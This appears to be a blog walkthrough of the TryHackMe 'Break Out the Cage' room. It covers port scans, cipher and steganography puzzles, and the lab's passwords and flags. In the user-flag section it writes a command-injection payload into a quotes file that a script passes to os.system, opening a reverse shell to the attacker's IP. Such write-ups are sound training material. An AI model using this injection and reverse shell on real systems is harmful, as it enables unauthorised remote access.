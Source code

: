 ```yaml
---
layout: post
title: Walkthrough - Break Out the Cage
published: true
---
```


Python, Steg, Rot13, Mail. Help Cage bring back his acting career and investigate the nefarious goings on of his agent!

[https://tryhackme.com/room/breakoutthecage1](https://tryhackme.com/room/breakoutthecage1)

* * *

## Notes

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             396 May 25  2020 dad_tasks
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.2.127.225
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dd:fd:88:94:f8:c8:d1:1b:51:e3:7d:f8:1d:dd:82:3e (RSA)
|   256 3e:ba:38:63:2b:8d:1c:68:13:d5:05:ba:7a:ae:d9:3b (ECDSA)
|_  256 c0:a6:a3:64:44:1e:cf:47:5f:85:f6:1f:78:4c:59:d8 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Nicholas Cage Stories
|_http-server-header: Apache/2.4.29 (Ubuntu)
```

In the FTP server we find ``dad_tasks`` which contains a base64 encoding. decoded it doesnt mean much to us yet, saving this here for later.

```
Qapw Eekcl - Pvr RMKP...XZW VWUR... TTI XEF... LAA ZRGQRO!!!!
Sfw. Kajnmb xsi owuowge
Faz. Tml fkfr qgseik ag oqeibx
Eljwx. Xil bqi aiklbywqe
Rsfv. Zwel vvm imel sumebt lqwdsfk
Yejr. Tqenl Vsw svnt "urqsjetpwbn einyjamu" wf.

Iz glww A ykftef.... Qjhsvbouuoexcmvwkwwatfllxughhbbcmydizwlkbsidiuscwl
```

- ``gobuster dir -u http://10.10.107.176/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 100 --no-error``

```
/images               (Status: 301) [Size: 315] [--> http://10.10.107.176/images/]
/html                 (Status: 301) [Size: 313] [--> http://10.10.107.176/html/]  
/scripts              (Status: 301) [Size: 316] [--> http://10.10.107.176/scripts/]
/contracts            (Status: 301) [Size: 318] [--> http://10.10.107.176/contracts/]
/auditions            (Status: 301) [Size: 318] [--> http://10.10.107.176/auditions/]
```

- ``wget -nd -r -l 2 -A jpg,jpeg,png,gif http://10.10.231.206/images``

Not much in all os these directories i tried stegseek on all the images but cant find a password, and still unable to crack the dad_tasts, but there is a mp3 file to look at in `/auditions/`.

![](/assets/break-out-the-cage01.png)

After messing with audacity settings it reveals a hidden message "namelesstwo". This is the key to the vigenere cipher.

```
Dads Tasks - The RAGE...THE CAGE... THE MAN... THE LEGEND!!!!
One. Revamp the website
Two. Put more quotes in script
Three. Buy bee pesticide
Four. Help him with acting lessons
Five. Teach Dad what "information security" is.

In case I forget.... Mydadisghostrideraintthatcoolnocausehesonfirejokes
```

* * * 

## What is Weston's password?

- weston:Mydadisghostrideraintthatcoolnocausehesonfirejokes

* * * 

## What's the user flag?

```
find / -type f -group 1000 2>/dev/null
/opt/.dads_scripts/spread_the_quotes.py
/opt/.dads_scripts/.files/.quotes
```

```
weston@national-treasure:/$ cat /opt/.dads_scripts/spread_the_quotes.py 
#!/usr/bin/env python

#Copyright Weston 2k20 (Dad couldnt write this with all the time in the world!)
import os
import random

lines = open("/opt/.dads_scripts/.files/.quotes").read().splitlines()
quote = random.choice(lines)
os.system("wall " + quote)
```

```
weston@national-treasure:/tmp$ sudo -l
[sudo] password for weston: 
Matching Defaults entries for weston on national-treasure:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User weston may run the following commands on national-treasure:
    (root) /usr/bin/bees
```

Not able to get much more to work here, looking at ``spread_the_quotes.py`` it is being run by cage, but we dont have permissions to write to it, however we do have permissions to write to ``/opt/.dads_scripts/.files/.quotes``

- ``echo "quote;sh -i >& /dev/tcp/10.2.127.225/6666 0>&1" > /opt/.dads_scripts/.files/.quotes``
- now that we are connected we can find the user flag in the home directory. 

* * * 

## What's the root flag?

- Looking at the backup emails there is a code "haiinspsyanileph" and a hint "face"?
- This is another Vigenere Cipher the key is face
- ``cageisnotalegend``
- we can ``su`` to root. and find the flag inside roots email backups

* * * 

